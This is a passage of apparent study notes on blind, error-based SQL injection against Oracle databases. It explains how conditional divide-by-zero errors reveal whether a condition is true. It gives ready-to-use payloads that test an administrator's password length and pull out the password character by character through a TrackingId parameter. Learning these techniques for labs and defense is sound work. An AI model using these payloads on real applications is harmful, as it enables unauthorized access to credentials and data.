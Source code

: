 **Note**: The `SUBSTRING` function is called `SUBSTR` sometimes.

### Error-based SQL Injection

* You may be able to induce the application to return a specific error response based on the result of a boolean expression
* You may be able to trigger error messages that output the data returned by the query. This turns blind SQL into visible ones

#### Blind SQL injection by triggering conditional errors

**We are using errors just like conditions** Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. In this case the **BOOLEAN** method does not work as we won't see a difference in the Web Application.

**NOTE:** ORACLE SPECIFIC

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

* With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error.
* With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. To induce an error:

```sql
' AND (SELECT CASE WHEN (1=2)THEN TO_CHAR(1/0) --
```

(TO\_CHAR IS ORACLE SPECIFIC)

To check password length:

```sql
xyz' AND (SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE 'a' END FROM Users WHERE username='administrator')=' a
```

We can use it like so:

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

Check for errors:

```sql
TrackingId=xyz' //error
TrackingId=xyz''
```

### Extracting Information from Verbose Errors

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one.
